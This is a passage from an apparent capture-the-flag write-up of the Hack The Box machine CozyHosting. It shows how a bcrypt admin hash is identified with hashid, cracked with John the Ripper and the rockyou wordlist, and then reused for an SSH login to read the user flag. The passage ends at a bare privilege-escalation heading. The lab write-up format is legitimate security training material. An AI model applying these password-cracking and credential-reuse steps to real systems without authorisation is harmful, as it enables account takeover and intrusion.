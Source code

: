 Looks like either `josh` or `laurel_` is the admin.

## Cracking the password

We have to crack the admin password, let's first check chat kind of hash this is using the `hashid` command:

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/HTB/CozyHosting$ hashid
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

This is bcrypt, we can now use John the ripper to crack the password using the `rockyou.txt` wordlist like this :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/HTB/CozyHosting$ john --format=bcrypt --wordlist=/home/kyll/Desktop/code_folder/Tools/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
manchesterunited (admin)     
1g 0:00:00:13 DONE (2024-02-02 15:47) 0g/s 210.0p/s 210.0c/s 210.0C/s onlyme..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

So the password is `manchesterunited` ! Let's try connecting in ssh to one of the potential admin users that we found before :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/Software_exploitation/HTB/CozyHosting$ ssh josh@10.10.11.230
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
[...]
Last login: Fri Feb  2 14:16:11 2024 from 10.10.16.23
josh@cozyhosting:~$ 
```

We are now connected as `josh` into that machine! and we can access `user.txt` :

```
josh@cozyhosting:~$ cat user.txt 
c7294bc90b8251319269769369ed5ff1
```

## Privilege escalation
